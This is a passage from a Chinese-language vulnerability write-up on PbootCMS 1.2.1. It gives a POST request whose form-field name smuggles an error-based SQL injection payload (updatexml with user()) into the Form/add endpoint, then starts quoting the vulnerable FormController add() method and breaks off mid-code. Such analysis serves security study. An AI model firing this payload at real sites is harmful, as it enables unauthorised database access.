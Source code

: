 ```
url：http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Form/add?fcode=2
post：
  tel[tel`) VALUES ( 1 and updatexml(1,concat(0x3a,user()),1) );-- a] = 1111 
```

![image](../img/e27b8559ba1c6beea4b96aca78d89e59.png)

### 0x08.2.2 漏洞解读

路径：PbootCMS-V1.2.1\apps\home\controller\FormController.php
方法：add(

```
// 表单提交
    public function add()
    {
        if ($_POST) {

```
 if (time() - session('lastsub') &lt; 10) {
            alert_back('您提交太频繁了，请稍后再试！');
        }

        if (! $fcode = get('fcode', 'var')) {
            alert_back('传递的表单编码有误！');
        }

        if ($fcode == 1) {
            alert_back('表单提交地址有误，留言提交请使用留言专用地址!');
        }

        // 验证码验证
        /*
         * $checkcode = post('checkcode');
         * if ($this-&gt;config('message_check_code')) {
         * if (! $checkcode) {
         * alert_back('验证码不能为空！');
         * }
         * if ($checkcode != session('checkcode')) {
         * alert_back('验证码错误！');
         * }
         * }
         */
